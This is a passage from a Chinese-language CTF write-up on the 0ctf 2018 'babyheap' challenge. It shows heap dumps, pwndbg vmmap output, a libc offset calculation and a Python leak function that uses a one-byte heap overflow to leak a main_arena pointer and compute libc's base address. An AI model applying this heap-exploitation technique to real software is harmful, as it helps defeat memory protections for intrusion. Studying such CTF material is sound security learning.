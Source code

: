 ```
  bk_nextsize = 0x0
}
0x555555757140 PREV_INUSE {
  prev_size = 0, 
  size = 134849, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

这样，我们就拿到了`<main_arena+88>`的地址`0x7ffff7dd1b78`。从而得到main_arena的地址`0x7ffff7dd1b20`。

通过vmmap我们可以找到libc加载的基地址。

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x43b4a1dfb000     0x43b4a1dfc000 rw-p     1000 0      
    0x555555554000     0x555555556000 r-xp     2000 0      /home/qianfa/Desktop/0ctf/babyheap2018/babyheap
    0x555555755000     0x555555756000 r--p     1000 1000   /home/qianfa/Desktop/0ctf/babyheap2018/babyheap
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/qianfa/Desktop/0ctf/babyheap2018/babyheap
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7bcd000     0x7ffff7dcd000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dcd000     0x7ffff7dd1000 r--p     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd1000     0x7ffff7dd3000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd3000     0x7ffff7dd7000 rw-p     4000 0      
    0x7ffff7dd7000     0x7ffff7dfd000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7fda000     0x7ffff7fdd000 rw-p     3000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
```

这样，就可以得到本地libc的基地址相对于`main_arena+88`的偏移:

> `0x7ffff7dd1b78` - `0x7ffff7a0d000` = 0x3c4b78

于是，可以得到泄露地址脚本如下:

```python
def leak():
    alloc(0x48) #0
    alloc(0x48) #1
    alloc(0x48) #2
    alloc(0x48) #3
 
    update(0, 0x49, "A"*0x48 + "\xa1")
    delete(1)   #1
    alloc(0x48) #1
    view(2)    
    p.recvuntil("Chunk[2]: ")
 
    leak = u64(p.recv(8))
    libc_base = leak - libc_offset # libc_offset = 0x3c4b78 这是本地libc偏移，远程的偏移计算方法类似。
    main_arena = leak - 0x58
    log.info("libc_base: %s" % hex(libc_base))
    log.info("main_arena: %s" % hex(main_arena))
```